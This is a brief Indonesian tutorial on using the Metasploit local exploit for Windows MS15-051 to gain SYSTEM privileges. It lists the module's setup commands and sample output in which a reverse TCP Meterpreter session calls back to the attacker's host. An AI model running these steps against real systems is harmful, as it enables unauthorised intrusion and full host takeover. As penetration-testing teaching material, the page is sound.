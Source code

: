 # ms15_051_client_copy_image

Modul `ms15_051_client_copy_image` di Metasploit adalah modul `exploit local` untuk sistem Windows yang memanfaatkan kerentanan dalam fungsi `ClientCopyImage` pada kernel (`MS15-051`), memungkinkan eskalasi hak akses ke `SYSTEM` dengan menyalahgunakan pengelolaan objek `GDI` secara tidak benar.

## Cara Penggunaan di Metasploit

```
use exploit/windows/local/ms15_051_client_copy_image
set PAYLOAD <PAYLOAD>
set SESSION <ID>
set LHOST <IP_ATTACKER>
set LPORT <PORT_LISTENER>
set TARGET <ID>
set VERBOSE true
```

Hasil output-nya seperti ini:

```
[*] Started reverse TCP handler on 192.168.1.11:4444 
[*] win32k.sys file version: 6.1.7601.17514 branch: 17
[*] Reflectively injecting the exploit DLL and executing it...
[*] Launching netsh to host the DLL...
[+] Process 5688 launched.
[*] Reflectively injecting the DLL into 5688...
[*] Sending stage (177734 bytes) to 192.168.1.53
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Meterpreter session 16 opened (192.168.1.11:4444 -> 192.168.1.53:49172) at 2025-05-17 06:04:02 +0700

meterpreter > getuid 
Server username: NT AUTHORITY\SYSTEM
```
